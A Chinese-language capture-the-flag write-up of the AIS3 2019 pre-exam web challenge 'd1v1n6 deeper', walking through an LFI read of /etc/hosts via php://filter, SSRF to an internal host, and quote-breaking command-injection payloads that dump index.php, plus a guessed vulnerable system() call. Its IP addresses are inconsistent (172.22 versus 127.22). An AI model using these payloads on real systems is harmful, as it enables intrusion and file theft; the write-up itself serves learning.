 # AIS3 pre-exam 2019: d1v1n6

**Category:** Web  
**Description:**  

>d1v1n6 DEEPER  
>@djosix

## Write-up

依照上一題給的提示，如下。

```
Hints for d1v1n6 d33p3r:
- Find the other web server in the internal network.
- Scanning is forbidden and not necessary.
```

可以知道應該是在考 SSRF，但第一個目標是要先知道跳板主機處在內網的 IP 位置，這時候很無腦的在那邊 `192.168.0.1` 從 Class C 手動下手（有病嘛!!），最後突然想到，是不是可以從 LFI 的漏洞，直接存取系統上的相關資訊，於是抓了 hosts 檔。  

```
/?path=php://filter/convert.base64-encode/resource=../../../../../../etc/hosts
```

檔案內容：

```
127.0.0.1	localhost ::1
localhost ip6-localhost ip6-loopback fe00::0	
ip6-localnet ff00::0	
ip6-mcastprefix ff02::1	ip6-allnodes ff02::2	
ip6-allrouters 172.22.0.3	b7fba1715fe6
```

可以清楚看到第一題的主機位置為 `127.22.0.3`，手動上下踹一下，得到目標主機位置 `127.22.0.2`。  

該頁面是一個 `Directory Lister` 工具。  

![](./img/01.png)  

可以直接指定，路徑位置，並且該工具會回傳該路徑下的所有檔案清單，就像 Linux 的 ls -ha 指令。  

一開始傻傻的在找 Flag 位置，東翻西翻的，後來才驚覺可能是 cmd-i，而 Flag 就藏在該頁面的 php 檔案上。  

經過一連串的嘗試，都沒有反映，最後是聽友朋友說，會不會是要做「閉合」之類的動作，於是就往這方面進行嘗試，結果不小心成功有了一些行為。  

![](./img/02.jpg)  

```
?path=http://127.22.0.2/index.php
?dir=./%27;cat>%27ls
```

隊的，由於 cat 的箭頭錯了，然後也樂在其中，就順手加了好多檔案（雖然不久之後就被清掉）。  

接著再接再厲，改變了箭頭，並且目標為 `index.php`，得到 Flag。  

```
?path=http://127.22.0.2/index.php
?dir=./%27;cat<%27index.php
```

然後後知後覺再去猜測他原始碼可能長這樣。

```PHP
system("bash -c ls -ha '$input'");
```